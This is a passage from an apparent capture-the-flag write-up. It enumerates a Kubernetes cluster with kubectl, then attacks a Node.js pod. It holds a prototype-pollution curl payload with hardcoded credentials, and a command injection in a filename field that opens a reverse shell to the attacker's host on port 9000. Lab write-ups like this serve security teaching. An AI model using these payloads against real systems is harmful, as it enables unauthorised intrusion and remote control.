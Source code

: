![obraz](https://github.com/user-attachments/assets/4378a2a8-6b8d-4a20-b2e6-807bded7d803)

Let's use this tool to enumerate cluster.  
First I will look at available namespaces.  
A namespace contains Kubernetes resources like pods, services, and deployments.  

![obraz](https://github.com/user-attachments/assets/a85a41e4-fab6-4f38-bf29-7f142f89b784)

Now we want to take a look at pods contained in "dev" namespace:  
```
./kubectl get pods -n dev
```
![obraz](https://github.com/user-attachments/assets/14051b1a-2793-48a2-a686-bda0ab00393e)  


Let's get more information about this pod:  
```
./kubectl describe pod devnode-deployment-776dbcf7d6 -n dev
```
![obraz](https://github.com/user-attachments/assets/c5860a2a-4fc9-422e-b129-313141f58829)

It revealed service running on port 3000, it is node js port.  
We can modify previous exploit to use pod's IP address:  
```
curl -X PUT http://10.42.0.69:3000/ -H 'Content-Type: application/json' -d '{"auth": {"name": "felamos", "password": "Winter2021"}, "message": {"test": "something", "__proto__": {"canUpload": true}}}'
```

And then start listener on port 9000 and run this command:  
```
curl -X POST http://10.42.0.69:3000/upload -H 'Content-Type: application/json' -d '{"auth": {"name": "felamos", "password": "Winter2021"}, "filename": "x; bash -c \"bash >& /dev/tcp/10.10.14.7/9000 0>&1\""}'
```
![obraz](https://github.com/user-attachments/assets/7aca7a48-f465-41fe-8a06-4080f72326e7)


























